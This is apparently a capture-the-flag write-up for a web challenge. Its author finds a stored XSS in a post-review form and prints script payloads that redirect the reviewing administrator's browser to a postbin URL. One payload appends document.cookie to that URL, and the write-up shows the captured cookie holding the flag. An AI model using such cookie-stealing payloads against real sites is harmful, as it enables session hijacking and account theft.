


# Government Agriculture Network



##### **Given:** web-address https://govagriculture.web.ctfcompetition.com/

Following the link we get to the **Ministry of Agriculture** website. 



Quick inspection of the source code doesn't give out a lot.

There's a form to create a new post and a link to `/admin` page, which doesn't really work (`303 SEE OTHER` upon navigation and redirect back to main page).

Let's try to create a new post. On submit we're being redirected to `/post` page with following message:

```
Your post was submitted for review. Administator will take a look shortly.
```
This message gives an important piece of information: administrator is going to review our message. If there's a xss vulnerability present then it can be possible to execute a script in administrator's browser.

Let's create a [postbin](https://postb.in/) and write up a simple script which will call our postbin upon execution by the victim's browser:

```
<script>document.location.href='https://postb.in/1586263800460-8725055831018'</script>
```
Immediately after submitting this script we can see that the request reached the bin:
```
x-real-ip: 104.155.55.51
host: postb.in
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Edocument.location.href%3D%27https%3A%2F%2Fpostb.in%2F1586263800460-8725055831018%27%3C%2Fscript%3E
[...]
```

Let's modify the script to fetch admin's cookies and send it to us:
```
<script>
cookie = document.cookie
document.location.href='https://postb.in/1586263800460-8725055831018?cookie=' + cookie
</script>
```
In postbin we see:
```
Query
cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};
```

**Flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}**
